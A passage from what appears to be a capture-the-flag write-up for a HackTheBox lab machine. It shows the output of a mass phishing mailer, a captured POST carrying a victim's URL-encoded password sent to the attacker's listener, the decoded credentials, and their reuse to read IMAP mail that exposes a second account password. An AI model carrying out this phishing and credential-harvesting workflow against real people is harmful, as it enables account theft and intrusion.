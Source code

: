 ```bash
Sending to: sukiburks@sneakymailer.htb - message sent!
Sending to: sulcud@sneakymailer.htb - message sent!
Sending to: tatyanafitzpatrick@sneakymailer.htb - message sent!
Sending to: thorwalton@sneakymailer.htb - message sent!
Sending to: tigernixon@sneakymailer.htb - message sent!
Sending to: timothymooney@sneakymailer.htb - message sent!
Sending to: unitybutler@sneakymailer.htb - message sent!
Sending to: vivianharrell@sneakymailer.htb - message sent!
Sending to: yuriberry@sneakymailer.htb - message sent!
Sending to: zenaidafrank@sneakymailer.htb - message sent!
Sending to: zoritaserrano@sneakymailer.htb - message sent!
```
After the script completes, it can be seen that the port has recieved data.
```bash
Connection received on sneakymailer.htb 58368
POST / HTTP/1.1
Host: 10.10.14.120
User-Agent: python-requests/2.23.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 185
Content-Type: application/x-www-form-urlencoded

firstName=Paul&lastName=Byrd&email=paulbyrd%40sneakymailer.htb&password=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt&rpassword=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt
```
The recieved post data appears to contain a username and password which are URL encoded, as indicated by the content type header. This data decodes to:
```
firstName=Paul
lastName=Byrd
email=paulbyrd@sneakymailer.htb
password=^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht
```

### 5. Use the phished creds
After trying the creds with a few different services, I discovered the provided credentials do give access to Paul Byrd's mail account. To get the access, I needed to download an email reader and connect it to the IMAP service on port 143 so that I could retrieve the user's mailboxes. In the "sent items" folder, there is two e-mails:
```
From:  Paul Byrd <paulbyrd@sneakymailer.htb>
To: low@debian
Subject:  Module testing
Date: Wed, 27 May 2020 13:28:58 -0400
Hello low
Your current task is to install, test and then erase every python module you 
find in our PyPI service, let me know if you have any inconvenience.
```
and
```
From: Paul Byrd <paulbyrd@sneakymailer.htb>
To: root <root@debian>
Subject:  Password reset
Date: Fri, 15 May 2020 13:03:37 -0500 (05/15/2020 02:03:37 PM)
Hello administrator, I want to change this password for the developer account
 
Username: developer
Original-Password: m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C
 
Please notify me when you do it
```
